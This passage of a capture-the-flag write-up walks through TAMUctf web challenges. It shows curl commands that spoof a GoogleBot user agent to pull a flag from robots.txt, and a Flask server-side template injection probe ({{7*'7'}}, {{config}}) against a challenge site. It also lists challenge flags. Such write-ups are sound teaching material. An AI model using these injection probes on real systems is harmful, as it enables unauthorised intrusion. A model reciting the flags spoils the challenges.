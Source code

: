 - flag: `gigem{the_best_damn_sql_anywhere}`

## Robots Rule
**Category**: Web

> http://web5.tamuctf.com
> 
> Difficulty: easy

The name suggests we look at the `/robots.txt`.

```
$ curl http://web5.tamuctf.com/robots.txt
User-agent: *

WHAT IS UP, MY FELLOW HUMAN!
HAVE YOU RECEIVED SECRET INFORMATION ON THE DASTARDLY GOOGLE ROBOTS?!
YOU CAN TELL ME, A FELLOW NOT-A-ROBOT!
```

Alright, let's pretend to be Google.

```
$ curl http://web5.tamuctf.com/robots.txt -H 'user-agent: GoogleBot'
User-agent: *

THE HUMANS SUSPECT NOTHING!
HERE IS THE SECRET INFORMATION: gigem{be3p-bOop_rob0tz_4-lyfe}
LONG LIVE THE GOOGLEBOTS!
```

- flag: `gigem{be3p-bOop_rob0tz_4-lyfe}`

## Science
**Category**: Web

> http://web3.tamuctf.com
> 
> Difficulty: medium

When we try to combine any two items, we get a page that includes the name of
both things. Since they call it "Flask as a Service", let's try some template
injection.

```
$ curl http://web3.tamuctf.com/science -d "chem1={{7*'7'}}&chem2=S"
<html>
        <div style="text-align:center">
        <h3>The result of combining 7777777 and S is:</h3></br>
        <iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468"
height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div>
        </html>
```

Great! Now, let's figure out where the flag is hidden. `{{config}}` gives us the
following:
